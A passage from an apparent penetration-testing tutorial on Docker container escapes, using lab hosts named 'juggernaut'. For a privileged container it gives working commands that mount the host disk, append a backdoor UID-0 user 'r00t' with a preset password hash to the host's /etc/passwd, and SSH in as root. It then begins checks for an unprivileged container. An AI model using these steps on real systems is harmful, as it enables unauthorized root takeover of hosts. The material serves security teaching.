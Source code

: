 Armed with the name of the host drive, we can now mount it and then access all of the files on the host from inside the docker.

mkdir -p /mnt/juggernaut
mount /dev/sda5 /mnt/juggernaut
ls -l /mnt/juggernaut

Great! We successfully mounted the host filesystem, and we can now interact with it as root.

Although we have root access to the host filesystem, the fact remains that we are still in the container. So now we need to break out of the container to get a root shell on the actual host.

Unlike last time though, we cannot copy bash and set the SUID-bit because we do not have a foothold on the host to execute it.

Instead, we will need to do something a bit different to get our root shell.

For this example, what we will do is create a root user and then SSH into the host with it.
Adding a new Root User into the /etc/passwd File

Since the actual host filesystem is mounted in the container, by editing the passwd file from inside the container, the changes will also occur on the host.

To begin, we need to generate a password hash for our root user on our attacker machine.

openssl passwd -1 -salt r00t password123

After we get our hash, we can take this info and feed it into the following command to append a new line into the passwd file, creating a new root user named r00t:

echo 'r00t:$1$r00t$HZoYdo0F7UZbuKrEXMcah0:0:0:/dev/shm/pwnt:/bin/bash' >> /mnt/juggernaut/etc/passwd

SSH’ing into the Target Host as “root”

Perfect! Our root user has been created. Now all we need to do is SSH into the host and we will have our root shell!

    Because we set the user id and group id to 0, this user is the same as the built in root. All roots are created equally as long as they have UID and GID as 0.

ssh r00t@172.16.1.150

BOOM! Just like that, we were able to breakout of the docker container without ever getting a foothold on the actual target host first!
Scenario 3: Getting a Foothold Directly in a Non-Privileged Container

Exactly as we saw in the last example. we have exploited the same host externally and gotten a foothold directly in the docker container again.

For this example, let’s say that we have already upgraded to full TTY, and we have also confirmed that we are in a docker container.

Next, we need to check if this is a privileged container.
Determining this is NOT a Privileged Container

Just like the last example, we will start by checking if we can use the fdisk command.

fdisk -l | grep -A 10 -i "device"

And we see nothing this time! This is an early sign that we are not in a privileged container. However, we keep checking…
